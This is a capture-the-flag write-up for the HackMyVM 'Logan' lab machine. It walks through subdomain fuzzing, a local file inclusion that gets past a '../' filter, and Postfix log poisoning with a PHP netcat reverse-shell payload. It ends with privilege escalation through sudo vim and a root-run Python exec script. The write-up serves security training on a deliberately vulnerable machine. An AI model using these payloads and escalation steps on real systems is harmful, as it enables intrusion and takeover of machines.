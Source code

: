 # writeup logan hackmyvm

## machine info
- VmName : Logan
- Creator : d3b0o
- Level : medium
- Link : [https://downloads.hackmyvm.eu/logan.zip](https://downloads.hackmyvm.eu/logan.zip)

## walkthrough
### summary
- get a subdomain using web fuzzer
- find LFI from the subdomain web site
- write php reverse shell into postfix log file
- get a user shell (www-data) using LFI
- get a user shell (logan) using sudo command
- get a root shell using sudo command

### get machine ip address
```
sudo netdiscover -i eth0 -r 192.168.0.0/24
```
```mermaid
flowchart LR
    id1("kali (attacker)
    192.168.0.4")
    ----
    id2("logan.hmv (target)
    192.168.0.254")
```

### scan open ports
```
┌──(kali㉿kali)-[~/hackmyvm/logan]
└─$ nmap -T4 -sC -sV -p- -oN nmap.log 192.168.0.254
Starting Nmap 7.94 ( https://nmap.org ) at 2023-07-19 03:21 EDT
Nmap scan report for discover (192.168.0.254)
Host is up (0.00066s latency).
Not shown: 65533 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
25/tcp open  smtp    Postfix smtpd
| ssl-cert: Subject: commonName=logan
| Subject Alternative Name: DNS:logan
| Not valid before: 2023-07-03T13:46:49
|_Not valid after:  2033-06-30T13:46:49
|_ssl-date: TLS randomness does not represent time
|_smtp-commands: logan.hmv, PIPELINING, SIZE 10240000, VRFY, ETRN, STARTTLS, ENHANCEDSTATUSCODES, 8BITMIME, DSN, SMTPUTF8, CHUNKING
80/tcp open  http    Apache httpd 2.4.52 ((Ubuntu))
|_http-server-header: Apache/2.4.52 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
Service Info: Host:  logan.hmv

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 19.93 seconds
```

### get a user shell
I checked out a website (port 80).
- whatweb
```
┌──(kali㉿kali)-[~/hackmyvm/logan]
└─$ whatweb http://logan.hmv                  
http://logan.hmv [200 OK] Apache[2.4.52], Bootstrap, Country[RESERVED][ZZ], HTML5, HTTPServer[Ubuntu Linux][Apache/2.4.52 (Ubuntu)], IP[192.168.0.254], JQuery[3.4.1], Script[text/javascript], Title[Logan], X-UA-Compatible[IE=edge]
```
![](./img/web_01.png)

I think that a form of this website is not working.
![](./img/web_02.png)
![](./img/web_03.png)

I could not find useful information from the website.
So, I tried to find a subdomain.
- wfuzz
```
┌──(kali㉿kali)-[~/hackmyvm/logan]
└─$ wfuzz -c -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-110000.txt -u "http://logan.hmv" -H "HOST: FUZZ.logan.hmv" -t 100 -Z --hh 65 
********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: http://logan.hmv/
Total requests: 114441

=====================================================================
ID           Response   Lines    Word       Chars       Payload                                                                    
=====================================================================

000000024:   200        62 L     101 W      1112 Ch     "admin - admin"                                                            
000009532:   400        10 L     35 W       301 Ch      "#www - #www"                                                              
000010581:   400        10 L     35 W       301 Ch      "#mail - #mail"                                                            
000047706:   400        10 L     35 W       301 Ch      "#smtp - #smtp"                                                            
000103135:   400        10 L     35 W       301 Ch      "#pop3 - #pop3"                                                            

Total time: 217.2565
Processed Requests: 114441
Filtered Requests: 114436
Requests/sec.: 526.7551
```

I could find a subdomain website (admin.logan.hmv).
So, I checked out the website.
- Administration panel
![](./img/web_04.png)
- Upload files
![](./img/web_05.png)
I uploaded some files. But, I could not find the files on the website.
- Logs
![](./img/web_06.png)
There was neither clearlogs.php file nor backup files (clearlogs.php.bak, and so on) on the website.
- Payments
![](./img/web_07.png)
I found there are three files (01, 02, 03) on the website.
I realized the website removed "../" strings from input strings after trying many things.
![](./img/web_08.png)
So, I tried "....//....//....//....//etc/passwd" strings, I could get LFI (Local File Inclusion) from the website.
![](./img/web_09.png)

Because I could read a postfix log file from the website using LFI, I tried to get a shell using it.
![](./img/web_10.png)
```
┌──(kali㉿kali)-[~/hackmyvm/logan]
└─$ nc logan.hmv 25
220 logan.hmv ESMTP Postfix (Ubuntu)
mail from:logan
250 2.1.0 Ok
rcpt to:<?php exec("rm /tmp/p;mkfifo /tmp/p;cat /tmp/p|/bin/sh -i 2>&1|nc 192.168.0.4 1234 >/tmp/p"); ?>
501 5.1.3 Bad recipient address syntax
```
![](./img/shell_01.png)
I could get a user shell (www-data).

When I executed sudo command, I found I can execute vim command with logan's privileges.
```
www-data@logan:/var/www/admin$ sudo -l
Matching Defaults entries for www-data on logan:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User www-data may run the following commands on logan:
    (logan) NOPASSWD: /usr/bin/vim
www-data@logan:/var/www/admin$ 
```

So, I executed vim command with logan's privileges and execute bash command from vim.
![](./img/shell_02.png)
```
www-data@logan:/var/www/admin$ sudo -u logan /usr/bin/vim

logan@logan:/var/www/admin$ id
uid=1000(logan) gid=1000(logan) groups=1000(logan),27(sudo),1002(administration)
```

I could get a user shell (logan) and a user flag (logan). 😺
```
logan@logan:~$ ls -la
total 36
drwxr-xrwx 4 logan logan 4096 Jul 18 08:42 .
drwxr-xr-x 3 root  root  4096 Jul 17 20:59 ..
lrwxrwxrwx 1 root  root     9 Jul 17 11:11 .bash_history -> /dev/null
-rw-r--r-x 1 logan logan  220 Jan  6  2022 .bash_logout
-rw-r--r-x 1 logan logan 3771 Jan  6  2022 .bashrc
drwx---r-x 2 logan logan 4096 Jul  3 13:41 .cache
drwxrwxr-x 3 logan logan 4096 Jul 17 12:08 .local
-rw-r--r-x 1 logan logan  807 Jan  6  2022 .profile
-rw-r--r-x 1 logan logan    0 Jul  3 13:42 .sudo_as_admin_successful
-rw-r--r-- 1  1002  1003   68 Jul 17 12:41 to-do
-rw-r--r-- 1 logan logan   16 Jul 17 20:45 user.txt
logan@logan:~$ cat user.txt 
User: i*******s
```

### get a root shell
```
logan@logan:~$ cat to-do 
- Go outside
- Try the new script that gave me root to learn python
```

When I executed sudo command, I found I can execute a python script with root's privileges.
```
logan@logan:~$ sudo -l
Matching Defaults entries for logan on logan:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User logan may run the following commands on logan:
    (root) NOPASSWD: /usr/bin/python3 /opt/learn_some_python.py
logan@logan:~$ ls -l /opt/learn_some_python.py
-rw------- 1 root root 132 Jul 18 08:48 /opt/learn_some_python.py
```

So, I tried to execute the script.
```
logan@logan:~$ sudo -u root /usr/bin/python3 /opt/learn_some_python.py
Welcome!!!

 The first you need to now is how to use print, please type print('hello')

aaaaa
Traceback (most recent call last):
  File "/opt/learn_some_python.py", line 3, in <module>
    exec(comand)
  File "<string>", line 1, in <module>
NameError: name 'aaaaa' is not defined
```

It looks like I can enter python scripts into the exec function.
So, I entered the following into it.
```
import os;os.system("/bin/bash");
```
```
logan@logan:~$ sudo -u root /usr/bin/python3 /opt/learn_some_python.py
Welcome!!!

 The first you need to now is how to use print, please type print('hello')

import os;os.system("/bin/bash");
root@logan:/home/logan# id
uid=0(root) gid=0(root) groups=0(root)
```

I could get a root shell and a root flag. 😺
```
root@logan:~# ls -la
total 48
drwx------  5 root root 4096 Jul 17 21:02 .
drwxr-xr-x 19 root root 4096 Jul  3 13:40 ..
lrwxrwxrwx  1 root root    9 Jul 17 11:11 .bash_history -> /dev/null
-rw-r--r--  1 root root 3106 Oct 15  2021 .bashrc
drwx------  3 root root 4096 Jul  3 14:10 .launchpadlib
-rw-------  1 root root   20 Jul 17 11:52 .lesshst
drwxr-xr-x  3 root root 4096 Jul  3 13:46 .local
-rw-r--r--  1 root root  161 Jul  9  2019 .profile
-rw-r--r--  1 root root   66 Jul  4 19:13 .selected_editor
-rw-r--r--  1 root root    0 Jul  3 13:45 .sudo_as_admin_successful
-rw-------  1 root root  985 Jul 17 14:27 .viminfo
-rw-r--r--  1 root root  169 Jul  3 14:15 .wget-hsts
-rw-r--r--  1 root root   17 Jul 17 20:44 root.txt
drwx------  3 root root 4096 Jul  4 15:52 snap
root@logan:~# cat root.txt 
Root: s********u
```
